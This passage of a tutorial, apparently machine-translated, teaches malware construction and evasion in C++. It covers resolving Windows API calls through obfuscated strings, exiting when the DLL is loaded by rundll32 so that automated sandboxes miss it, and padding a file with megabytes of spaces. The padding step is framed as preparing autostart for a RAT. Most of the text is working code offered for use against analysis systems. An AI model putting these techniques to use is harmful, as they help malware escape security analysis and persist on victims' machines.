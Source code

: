 ```
            return 1;
        }
    }
    return 0;
}
```

Since this function is located in ADVAPI32, we will need to load it via LoadLibrary

```
typedef HMODULE(WINAPI *PLoadLibraryA)(LPCSTR lpLibFileName);
PLoadLibraryA funcLoadLibraryA = (PLoadLibraryA)pGetProcAddress(hKernel32, AY_OBFUSCATE("LoadLibraryA"));
funcGetUserNameA = (PGetUserNameA)pGetProcAddress(funcLoadLibraryA(AY_OBFUSCATE("ADVAPI32.dll")), AY_OBFUSCATE("GetUserNameA"));
```

This is about how we add a function to our dll, now how else can we be careful, if you look at the zenbox, it always loads your dll via rundll32, respectively, we can simply exclude that our dll was loaded in programs from the system folder or in another way, but it's a bit dumb, but in general the code would look like this.

```
bool contains(const std::wstring& one, const std::wstring& two) {
    return one.find(two)!= std::wstring::npos;
}

void Check(){
wchar_t CurrentFilePath[1024];
GetModuleFileNameW(0, CurrentFilePath, 1024);
if(contains(CurrentFilePath,L"rundll")){
exit(EXIT_FAILURE);
}
}
```

### Adding autoloading

Let's say you have a RAT or another program scripted, how do I make an auto-upload? In general, you can stupidly add a file from the temp directory and the job is done, but there are other ways to autoload.
First, let's create our own pamper code on the pros, yes it will be as non-optimized as possible and it will need time to dump the file, but still, the code stupidly adds a space and writes it to the end of the file in a loop that counts how many megabytes we added.

```
std::wstring Pump(const std::wstring& asmPath, int mb) {
    std::wofstream fileStream(asmPath, std::ios::binary | std::ios::app);

    long fileSizeInBytes = static_cast<long>(mb * 1024 * 1024); // 1MB = 1024 * 1024 bytes

    fileStream.seekp(0, std::ios_base::end);
    long currentPosition = fileStream.tellp();

    long bytesToAdd = fileSizeInBytes - currentPosition;

    while (bytesToAdd > 0) {
        const wchar_t space = L' ';
        fileStream.write(&space, 1);
        bytesToAdd--;
    }

    fileStream.close();

    return asmPath;
}
```